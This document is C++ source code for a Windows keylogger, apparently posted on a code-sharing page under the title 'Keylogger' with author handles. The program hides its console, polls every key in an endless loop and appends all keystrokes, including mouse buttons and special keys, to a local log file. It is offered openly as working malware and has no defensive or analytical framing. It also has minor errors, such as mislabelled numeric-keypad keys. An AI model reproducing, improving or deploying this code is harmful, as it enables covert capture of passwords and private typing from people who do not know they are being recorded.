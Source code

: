 # Keylogger-
//Keylogger//
//Sadialhuda//
//Binarybeast004//
//Binarybeast007//

#include<iostream>//input output
#include<fstream> //file stream
#include<Windows.h> //function-os input 
using namespace std;

void Writetolog(string text){
    ofstream file; //file read //if.file write
    file.open("Logfile.txt", fstream::app); //appent - not override 
    file << text; // write in file 
    file.close();

}
bool SpecialKeys(int ikey){ // SpecialKeys(key)
    switch (ikey)  // 
{
case VK_SPACE:
Writetolog(" ");
break;

case VK_LBUTTON:
Writetolog(" Left mouse button");
break;

case VK_RBUTTON:
Writetolog(" Right mouse button");
break;

case VK_CANCEL:
Writetolog(" Control-break processing");
break;

case VK_MBUTTON: 
Writetolog(" Middle mouse button ");
break;

case VK_XBUTTON1:
Writetolog(" X1 mouse button ");
break;

case VK_XBUTTON2:
Writetolog(" X2 mouse button ");
break;

case VK_BACK:
Writetolog(" BACKSPACE key ");
break;

case VK_TAB:
Writetolog(" TAB key ");
break;

case VK_CLEAR:
Writetolog(" CLEAR key ");
break;

case VK_RETURN:
Writetolog(" ENTER key ");
break;

case VK_SHIFT:
Writetolog(" SHIFT key ");
break;

case VK_CONTROL:
Writetolog(" CTRL key ");
break;

case VK_MENU:
Writetolog(" ALT key ");
break;

case VK_PAUSE:
Writetolog(" PAUSE key ");
break;

case VK_CAPITAL:
Writetolog(" CAPS LOCK key ");
break;

case VK_KANA:
Writetolog(" IME Kana mode ");
break;

case VK_JUNJA:
Writetolog(" ME Junja mode ");
break;

case VK_FINAL:
Writetolog(" IME final mode ");
break;

case VK_KANJI:
Writetolog(" IME Kanji mode ");
break;

case VK_ESCAPE: 
Writetolog(" ESC key ");
break;

case VK_CONVERT:
Writetolog(" IME convert ");
break;

case VK_NONCONVERT:
Writetolog(" IME nonconvert ");
break;

case VK_ACCEPT:
Writetolog(" IME accept ");
break;

case VK_MODECHANGE:
Writetolog(" IME mode change request ");
break;

case VK_PRIOR:
Writetolog(" PAGE UP key ");
break;

case VK_NEXT:
Writetolog(" PAGE DOWN key ");
break;

case VK_END:
Writetolog(" END key ");
break;

case VK_HOME:
Writetolog(" HOME key ");
break;

case VK_LEFT:
Writetolog(" LEFT ARROW key ");
break;

case VK_UP:
Writetolog(" UP ARROW key ");
break;

case VK_RIGHT:
Writetolog("  RIGHT ARROW key ");
break;

case VK_DOWN:
Writetolog(" DOWN ARROW key ");
break;

case VK_SELECT:
Writetolog(" SELECT key ");
break;

case VK_PRINT:
Writetolog(" PRINT key ");
break;

case VK_EXECUTE:
Writetolog(" EXECUTE key ");
break;

case VK_SNAPSHOT:
Writetolog(" PRINT SCREEN key ");
break;

case VK_INSERT:
Writetolog(" INS key ");
break;

case VK_DELETE:
Writetolog(" DEL key ");
break;

case VK_HELP:
Writetolog(" HELP key ");
break;

case VK_SLEEP:
Writetolog(" Computer Sleep key  ");
break;

case VK_NUMPAD1:
Writetolog(" Numeric keypad 0 key ");
break;

case VK_NUMPAD2:
Writetolog(" Numeric keypad 1 key ");
break;

case VK_NUMPAD3:
Writetolog(" Numeric keypad 2 key ");
break;

case VK_NUMPAD4:
Writetolog(" Numeric keypad 4 key ");
break;

case VK_NUMPAD5:
Writetolog(" Numeric keypad 5 key ");
break;

case VK_NUMPAD6:
Writetolog(" Numeric keypad 6 key ");
break;

case VK_NUMPAD7:
Writetolog(" Numeric keypad 7 key ");
break;

case VK_NUMPAD8:
Writetolog(" Numeric keypad 8 key ");
break;

case VK_NUMPAD9:
Writetolog(" Numeric keypad 9 key ");
break;

case VK_MULTIPLY: 
Writetolog(" Multiply key ");
break;

case VK_ADD:
Writetolog(" Add key ");
break;

case VK_SEPARATOR:
Writetolog(" Separator key ");
break;

case VK_SUBTRACT:
Writetolog(" Subtract key ");
break;

case VK_DECIMAL:
Writetolog(" Decimal key ");
break;

case VK_DIVIDE:
Writetolog(" Divide key ");
break;

case VK_F1:
Writetolog(" F1 key ");
break;

case VK_F2:
Writetolog(" F2 key ");
break;

case VK_F3:
Writetolog(" F3 key ");
break;

case VK_F4:
Writetolog(" F4 key ");
break;

case VK_F5:
Writetolog(" F5 key ");
break;

case VK_F6:
Writetolog(" F6 key ");
break;

case VK_F7:
Writetolog(" F7 key ");
break;

case VK_F8:
Writetolog(" F8 key ");
break;

case VK_F9:
Writetolog(" F9 key ");
break;

case VK_F10:
Writetolog(" F10 key ");
break;

case VK_F11:
Writetolog(" F11 key ");
break;

case VK_F12:
Writetolog(" F12 key ");
break;

case VK_F13:
Writetolog(" F13 key ");
break;

case VK_F14:
Writetolog(" F14 key ");
break;

case VK_F15:
Writetolog(" F15 key ");
break;

case VK_F16:
Writetolog(" F16 key ");
break;

case VK_F17:
Writetolog(" F17 key ");
break;

case VK_F18:
Writetolog(" F18 key ");
break;

default:
return false ;
break;
}
return true ;
}



int main(){
   //Writetolog("This is a text\n"); //funtion calling 
   FreeConsole(); 
   while (1){
       for (unsigned char key=8; key<=255;key++){
          if(GetAsyncKeyState(key)== -32767){ //keyboard key axccess 
          if(SpecialKeys(key) == false){
          ofstream logfile ;
          logfile.open("Logfile.txt",fstream::app);
          logfile << key;
          logfile.close();
             }
          }
       }
   }

    return 0;
}
